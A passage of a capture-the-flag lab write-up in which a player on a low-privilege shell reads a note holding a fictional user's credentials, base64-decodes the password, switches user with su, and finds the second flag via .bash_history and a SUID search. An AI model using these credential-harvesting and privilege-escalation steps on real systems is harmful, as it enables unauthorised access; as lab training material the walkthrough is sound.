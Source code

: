 ```bash
Low_Priv Shell $:cat /home/david/note.txt
cat /home/david/note.txt
My_Dairy 00:66:33:22:66
----------------------
Hey, I am david , Employee of CSS_Platent. I know I am good in security. AS this is my home floder which cannot acessed by a thirdparty, I can save my datas here. no one can see my datas.but still I will encrypt my datas for security

uname : davaid_look001919
mail : david911@cssplatent.com
pass : c3lianJlb25mcjEwMgo=

Low_Priv Shell $:echo 'c3lianJlb25mcjEwMgo=' | base64 -d
echo 'c3lianJlb25mcjEwMgo=' | base64 -d
sybjreonfr102

Low_Priv Shell $:su david
su david
Password: flower{REDACTED}

Mid_PrivShell $: id    
id
uid=1001(david) gid=1001(david) groups=1001(david)
Mid_PrivShell $: 

```

We have switched to the `david` user. Unfortunately, the second flag is not found in david's home directory. However, by examining the `.bash_history` file, we discover the path to the second flag, another `note.txt` file, and a suspicious executable file named `odus`.

```bash
Mid_PrivShell $: cat .bash_history
cat .bash_history
exit
ls
cd /
find / -type f -perm -u=s 2>/dev/null
mv /home/david/.bin/8/0/1/9/4/0/wget /home/david/.bin/8/0/1/9/4/0/find_it_by_yourself
exit
sudo -l
ls
clear
ls
cp  /home/david/.bin/8/0/1/9/4/0/find_it_by_yourself  /tmp/wget
cp  /home/david/.bin/8/0/1/9/4/0/odus  /tmp/wget
exit

Mid_PrivShell $: cd .bin/8/0/1/9/4/0
cd .bin/8/0/1/9/4/0
Mid_PrivShell $: ls
ls
fl4g_2.txt  note.txt  odus

Mid_PrivShell $: cat fl4g_2.txt
cat fl4g_2.txt
075c15ee4{REDACTED}

Mid_PrivShell $: cat note.txt
cat note.txt
So your reach the final stage...
so everything depends upon your way of thing and practical usage and logical thiking of varius applications to find this hidden app
I can only tell you one thing. If you can find this file, Your path is perfect. 
```